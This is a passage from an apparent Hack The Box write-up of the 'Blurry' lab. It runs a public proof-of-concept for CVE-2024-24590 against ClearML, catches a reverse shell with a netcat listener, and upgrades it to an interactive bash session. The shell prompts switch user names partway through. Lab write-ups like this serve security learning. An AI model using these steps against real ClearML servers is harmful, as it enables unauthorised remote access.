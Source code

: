```
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb

Verifying credentials ...
Credentials verified!

New configuration stored in /home/wither/clearml.conf
ClearML setup completed successfully.

```

Here I would use other's poc script here
`https://github.com/j3r1ch0123/CVE-2024-24590.git`

```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Blurry/CVE-2024-24590]
└─$ python3 exp.py   
ClearML Task: overwriting (reusing) task id=9323ff7a7dfc48b69e363f25592a35a7
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/9323ff7a7dfc48b69e363f25592a35a7/output/log
Enter your IP address: ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
10.10.14.5
Enter the port you're listening on: 443
Artifact uploaded...
Check your listener in about a minute...
                          \\

┌──(wither㉿localhost)-[~/Templates/htb-labs/Blurry]
└─$ nc -lnvp 443   
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.19] 37824
/bin/sh: 0: can't access tty; job control turned off
$ 

```

Then we can upgrade our shell
```
jippity@blurry:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
jippity@blurry:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
jippity@blurry:~$

```
